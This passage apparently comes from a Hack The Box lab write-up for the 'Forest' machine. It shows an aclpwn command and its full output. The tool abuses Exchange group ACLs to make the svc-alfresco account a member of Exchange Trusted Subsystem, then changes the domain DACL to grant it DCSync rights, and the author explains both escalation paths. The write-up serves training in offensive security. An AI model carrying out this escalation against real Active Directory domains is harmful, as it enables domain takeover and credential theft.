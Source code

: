 
### ACLPWN
```
root@kali:~/Documents/HTB-Labs/Forest# aclpwn -f svc-alfresco -ft User -t htb.local -tt domain -d htb.local -s forest.htb -du neo4j -dp <neo4j_db_passwd>
Please supply the password or LM:NTLM hashes of the account you are escalating from: <svc-alfresco passwd>
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 0
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20200104-223425.restore
```

Important paths to flag from what aclpwn found (can be also seen by reviewing Sharphound's data in Bloodhound):
1. Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)

2. Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)

I selected PATH 0, but as you can notice by examining each path, there is not much of a difference; path 0 is somewhat longer as relies on being a member of EXCHANGE TRUSTED SUBSYSTEM, and the good one is EXCHANGE WINDOWS PERMISSIONS, BUT the first is a member of EXCHANGE WINDOWS PERMISSIONS anyways.

Technically speaking, we used the permissions svc-alfresco already has to modify accounts by being an "indirect" member of EXCHANGE TRUSTED SUBSYSTEM and EXCHANGE WINDOWS PERMISSIONS to delegate rights to itself by modifying domain DACL and give DCSync rights to itself. I know, it sounds confusing to explain!! At least the last Bloodhound screenshot shows this better.
